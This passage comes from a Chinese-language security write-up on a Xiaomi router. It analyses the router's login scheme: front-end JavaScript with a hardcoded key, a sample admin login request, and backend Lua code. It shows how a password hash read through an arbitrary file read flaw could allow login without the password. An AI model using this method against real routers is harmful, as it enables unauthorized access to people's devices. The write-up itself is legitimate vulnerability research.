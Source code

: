 ![](https://ultramangaia.github.io/img/xiaomi/2.png)

### [](#利用任意文件读取漏洞实现后台登录 "利用任意文件读取漏洞实现后台登录")利用任意文件读取漏洞实现后台登录

尝试通过任意文件读取漏洞实现登录后台，不是明文存储密码，需要进行一定分析。关注两个过程，一是登录时前端 js 生成 http post 请求参数过程，二是验证用户登陆的后端过程。

*   登录时前端 js 生成 http post 请求参数过程
    
    ```
    var Encrypt = {
        key: 'a2ffa5c9be07488bbb04a3a47d3c5f6a',
        iv: '64175472480004614961023454661220',
        nonce: null,
        init: function(){
            var nonce = this.nonceCreat();
            this.nonce = nonce;
            return this.nonce;
        },
        nonceCreat: function(){
            var type = 0;
            
            var deviceId = '<%=mac%>';
            var time = Math.floor(new Date().getTime() / 1000);
            var random = Math.floor(Math.random() * 10000);
            return [type, deviceId, time, random].join('_');
        },
        oldPwd : function(pwd){ 
            return CryptoJS.SHA1(this.nonce + CryptoJS.SHA1(pwd + this.key).toString()).toString();
        },
      
    };
    
    ```
    
    可知`oldPwd = sha1(nonce + sha1(pwd + 'a2ffa5c9be07488bbb04a3a47d3c5f6a'))`，登陆请求包为
    
    ```
    POST /cgi-bin/luci/api/xqsystem/login HTTP/1.1
    Host: 192.168.31.1
    
    username=admin&password=c9e62da7b8a0b7a4918c5a90912ba81a9717f9ab&logtype=2&nonce=0_mac地址_时间戳_5248
    
    ```
    

​

*   验证用户登陆的后端过程

调用`XQSecureUtil.checkUser`函数

```
function checkUser(user, nonce, encStr)
    
    local password = XQPreference.get(user, nil, "account")
    if password and not XQFunction.isStrNil(encStr) and not XQFunction.isStrNil(nonce) then
        if XQCryptoUtil.sha1(nonce..password) == encStr then
            return true
        end
    end
    XQLog.log(4, (luci.http.getenv("REMOTE_ADDR") or "").." Authentication failed", nonce, password, encStr)
    return false
end

```
